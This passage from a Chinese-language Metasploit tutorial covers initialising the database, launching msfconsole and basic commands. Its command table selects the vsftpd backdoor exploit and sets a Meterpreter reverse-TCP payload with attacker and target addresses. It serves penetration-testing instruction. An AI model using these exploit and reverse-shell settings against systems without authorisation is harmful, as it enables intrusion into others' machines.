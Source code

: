 现在，为了初始化 Metasploit 的数据库，让我们初始化`msfdb`，如下面的屏幕截图所示：

![](../images/00204.jpeg)

在前面的屏幕截图中可以清楚地看到，我们已经成功地为 Metasploit 创建了初始数据库模式。现在，让我们使用以下命令启动 Metasploit 数据库：

```
root@beast:~# msfdb start

```

我们现在准备启动 Metasploit。让我们在终端下发`msfconsole`启动 Metasploit，如下图所示：

![](../images/00205.jpeg)

欢迎使用 Metasploit 控制台。让我们运行`help`命令，看看我们还可以使用哪些其他命令：

![](../images/00207.jpeg)

前面屏幕截图中的命令是核心 Metasploit 命令，用于设置/获取变量、加载插件、路由流量、取消设置变量、打印版本、查找已发布命令的历史记录等等。这些命令相当通用。让我们看看基于模块的命令，如下所示：

![](../images/00209.jpeg)

Metasploit 中与特定模块相关的所有内容都位于“帮助”菜单的“模块控制”部分下。使用前面的命令，我们可以选择特定模块、从特定路径加载模块、获取有关模块的信息、显示与模块相关的核心和高级选项，甚至可以内联编辑模块。让我们学习 Metasploit 中的一些基本命令，并熟悉这些命令的语法和语义：

| **命令** | **用法** | **示例** |
| `use`【辅助/利用/有效载荷/编码器】 | 选择要开始使用的特定模块。 | 

```
msf>use
exploit/unix/ftp/vsftpd_234_backdoor
msf>use auxiliary/scanner/portscan/tcp 

```

 |
| `show`【漏洞利用/有效载荷/编码器/辅助/选项】 | 查看特定类型的可用模块列表。 | 

```
msf>show payloads
msf> show options        

```

 |
| `set`【选项/有效载荷】 | 为特定对象设置值。 | 

```
msf>set payload windows/meterpreter/reverse_tcp
msf>set LHOST 192.168.10.118
msf> set RHOST 192.168.10.112
msf> set LPORT 4444
msf> set RPORT 8080        

```
